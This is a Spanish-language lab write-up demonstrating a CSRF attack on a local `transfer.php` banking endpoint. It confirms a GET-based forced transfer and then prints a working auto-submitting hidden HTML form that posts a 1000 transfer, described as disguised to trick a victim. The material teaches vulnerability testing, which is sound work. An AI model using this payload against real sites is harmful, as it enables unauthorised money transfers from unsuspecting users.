 ### ✅ Confirmación: CSRF ejecutado con éxito

- El registro del servidor muestra que el navegador realizó una solicitud GET a `transfer.php?amount=1000` desde `csrf_attack.html`.

- La respuesta del servidor fue un código 200 OK, indicando que la operación se completó sin intervención del usuario.

Esto evidencia que `transfer.php` es vulnerable a ataques CSRF, ya que no implementa medidas como la validación del origen de la solicitud o el uso de tokens de seguridad.

Una variante es que podemos insertar un formulario automático en una página legítima, con una estética muy parecida al diseño original, para engañar a la víctima.

Para ello creamos otro archivo el cual lo llamaremos `csrf_attack2.html`.

![](imagenes/imagen8.png)

~~~
<!DOCTYPE<html>
<body>
        <form action="http://localhost/transfer.php" method="POST">
                <input type="hidden" name="amount" value="1000">
                <input type="submit">
        </form>
        <script>
                document.forms[0].submit();
        </script>
</body>
</html>
~~~

![](imagenes/imagen9.png)

El usuario, al efectuar una transferencia, no se percata de que en realidad ha enviado el dinero a la cuenta del atacante.

![](imagenes/imagen10.png)

